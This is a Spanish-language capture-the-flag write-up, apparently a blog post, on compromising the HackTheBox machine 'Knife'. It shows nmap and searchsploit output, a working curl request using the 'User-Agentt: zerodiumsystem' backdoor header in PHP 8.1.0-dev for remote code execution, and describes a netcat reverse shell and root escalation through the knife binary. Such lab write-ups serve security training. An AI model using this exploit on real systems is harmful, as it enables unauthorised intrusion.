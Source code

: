 ```yaml
---
title: "Knife - HackTheBox"
layout: single
excerpt: Esta es una máquina de dificultad fácil, para su <code>intrusión</code> me aproveché de una versión vulnerable de PHP/8.1.0-dev, añadiéndole la cabecera 'User-Agentt' seguido de 'zerodiumsystem(<comando>)' se encontró que se puede ganar 'RCE', para ello me entable una reverse Shell por netcat y gane acceso, para la escalada encontré que se podría ejecutar el binario de Knife como usuario root, busque en gtfobins y escale privilegios.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/131350831-4f0940b7-ef0b-42fc-9c75-2e784f1cd62f.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - knife
  - User-Agentt
  - curl
  - searchsploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/131255439-08fd7d17-c594-451b-ba0d-ec561ca1dfa2.jpg">
</p>

Comencé con un escaneo de `Nmap` para detectar puertos abiertos.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sS --min-rate=5000 -n -vvv --open -Pn 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:07 EDT
Initiating SYN Stealth Scan at 10:07
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 10:07, 0.41s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.11s latency).
Scanned at 2021-08-29 10:07:20 EDT for 0s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
           Raw packets sent: 1012 (44.528KB) | Rcvd: 1012 (40.488KB)
```

Efectúe otro escaneo para detectar la versión de cada servicio abierto encontrado.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sC -sV -p22,80 10.10.10.242 -oN targeted                       
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:09 EDT
Nmap scan report for 10.10.10.242
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```

Vi que corría un servidor web, accedí a él y encontré lo siguiente.

![https://imgur.com/8D6YyB7.png](https://imgur.com/8D6YyB7.png)

Las secciones que habían no eran botones por lo que poco podía hacer, le hice un `whatweb` al servidor web para ver que estaba corriendo.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Encontré que corría `PHP`, eso me llamo la atención, envíe una petición por `GET` y al parecer `whatweb` lo reporta de la cabecera `X-Powered-By`.

![https://imgur.com/2otlnnT.png](https://imgur.com/2otlnnT.png)

Busque si había algún `exploit` de esa versión y encontré uno que te garantizaba ejecución de código arbitrario.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit PHP 8.1.0-dev
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Concrete5 CMS < 8.3.0 - Username / Comments Enumeration                                                                     | php/webapps/44194.py
cPanel < 11.25 - Cross-Site Request Forgery (Add User PHP Script)                                                           | php/webapps/17330.html
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                         | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                     | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                            | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                       | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                              | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                          | php/webapps/46459.py
FileRun < 2017.09.18 - SQL Injection                                                                                        | php/webapps/42922.py
Fozzcom Shopping < 7.94 / < 8.04 - Multiple Vulnerabilities                                                                 | php/webapps/15571.txt
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)                                                                  | php/remote/40434.rb
IceWarp Mail Server < 11.1.1 - Directory Traversal                                                                          | php/webapps/44587.txt
KACE System Management Appliance (SMA) < 9.0.270 - Multiple Vulnerabilities                                                 | php/webapps/46956.txt
Kaltura < 13.2.0 - Remote Code Execution                                                                                    | php/webapps/43028.py
Kaltura Community Edition < 11.1.0-2 - Multiple Vulnerabilities                                                             | php/webapps/39563.txt
Micro Focus Secure Messaging Gateway (SMG) < 471 - Remote Code Execution (Metasploit)                                       | php/webapps/45083.rb
NPDS < 08.06 - Multiple Input Validation Vulnerabilities                                                                    | php/webapps/32689.txt
OPNsense < 19.1.1 - Cross-Site Scripting                                                                                    | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                         | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                                                                                    | php/remote/25986.txt
REDCap < 9.1.2 - Cross-Site Scripting                                                                                       | php/webapps/47146.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                                       | php/webapps/45271.txt
Responsive Filemanger <= 9.11.0 - Arbitrary File Disclosure                                                                 | php/webapps/41272.txt
ShoreTel Connect ONSITE < 19.49.1500.0 - Multiple Vulnerabilities                                                           | php/webapps/46666.txt
Western Digital Arkeia < 10.0.10 - Remote Code Execution (Metasploit)                                                       | php/remote/28407.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                         | php/webapps/39553.txt
Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting                                                | php/webapps/46815.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Lo transferí a mí máquina con el parámetro `-m` de `searchsploit`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit -m php/webapps/49933.py                        
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
File Type: HTML document, ASCII text, with CRLF line terminators

Copied to: /home/kali/HTB/Knife/49933.py
```
  
Tras ver lo que hacía por detrás encontré que envía una petición añadiendo una cabecera nueva llamada `User-Agentt` que ejecuta la siguiente sentencia `zerodiumsystem("comando");`
y ganas `RCE`.
  
![https://imgur.com/w3qsvUO.png](https://imgur.com/w3qsvUO.png)
  
Lo hice de manera manual con `curl`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# curl -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('whoami');" 
james
<!DOCTYPE html>
<html lang="en" >

<head>

  <meta charset="UTF-8">
```

Al parecer si funciono, me ejecuto el comando que yo quería y me reporto el "output" en la primera línea del código fuente de la página, ahora solo faltaba ganar acceso al sistema, por ello me entable una `reverse Shell` por `netcat`, para ello use una de `mkfifo`.

![https://imgur.com/ipnNoz2.png](https://imgur.com/ipnNoz2.png)

Y gané acceso a la máquina.

![https://imgur.com/OABTbXS.png](https://imgur.com/OABTbXS.png)

Hice un tratamiento de la `TTY` y encontré que se podía ejecutar el binario `knife` con el usuario `root`.

![https://imgur.com/gwNgZIA.png](https://imgur.com/gwNgZIA.png)

Fui a `gtfobins` y encontré que se podía escalar ejecutando el binario `knife`.

![https://imgur.com/G7sdeOP.png](https://imgur.com/G7sdeOP.png)

Lo ejecute y gane acceso a la máquina como `root` y ya pude visualizar la "flag".

![30OhG9A](https://user-images.githubusercontent.com/69093629/131256003-84afcd54-e826-4192-aabc-af581f4601cb.jpg)


